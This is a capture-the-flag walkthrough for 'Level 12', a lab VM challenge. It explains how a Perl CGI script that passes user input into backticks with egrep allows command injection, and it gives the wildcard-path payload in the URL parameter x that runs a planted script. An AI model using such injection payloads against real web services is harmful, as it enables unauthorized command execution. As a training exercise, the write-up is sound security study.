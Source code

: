 ## LEVEL 12

In this level, we search files that we can exploit.  
-> `ls -la` or `la`  
We can see that there's a Perl script and we look up what it contains.  
-> `cat level12.pl`  
We can notice a few things:  
* It hosts a server at *localhost:4646* and uses *CGI*.
* The function **t** is using *Regex* and *backticks*.

> **Backtick** is an operator in Perl that executes a command just as the *execute()* function. All the content in the backticks will be executed then the Perl script will continue.

At a first sight, we can see that the variable *xx* is using Regex to filter through 2 different patterns. But after that, the variable is used within backticks with *egrep*.

> **egrep** is a command that interpret pattern as an extended regular expression. It is the same as `grep -E`.

Therefore, *xx* is used in a regular expression and we can exploit this with backticks to execute a file on our virtual machine.  

> On Linux, the file names and commands are case sensitive.

So, we create a file that will be executable in */var/tmp* that contains the `getflag` command.  
-> `vim /var/tmp/SCRIPT`  
We add the following line,  
-> `getflag > /tmp/flag`  
Then, we give our file execution permission.  
-> `chmod +x /var/tmp/SCRIPT`  
And, we access the server on a browser and give the Perl script an argument using CGI.  
-> ```http://{VM_ip}:4646/?x="`/*/*/SCRIPT`"```  
Finally, we get our flag in */tmp*.  
-> `cat /tmp/flag`  
-> `su level13`